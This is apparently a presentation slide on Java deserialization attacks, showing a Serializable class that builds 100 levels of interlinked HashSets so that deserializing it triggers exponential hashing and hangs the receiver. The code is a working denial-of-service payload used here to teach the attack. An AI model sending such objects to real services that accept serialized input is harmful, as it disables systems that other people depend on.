

# DoS via Recursive References
class DOSObject implements Serializable {
    Set root;

    DOSObject() {
        root = new HashSet();
        Set s1 = root;
        Set s2 = new HashSet();
        for (int i = 0; i < 100; i++) {
    	    Set t1 = new HashSet();
	    Set t2 = new HashSet();
	    t1.add("foo"); // make it not equal to t2
	    s1.add(t1);
	    s1.add(t2);
	    s2.add(t1);
	    s2.add(t2);
	    s1 = t1;
	    s2 = t2;
	}
      }
}
13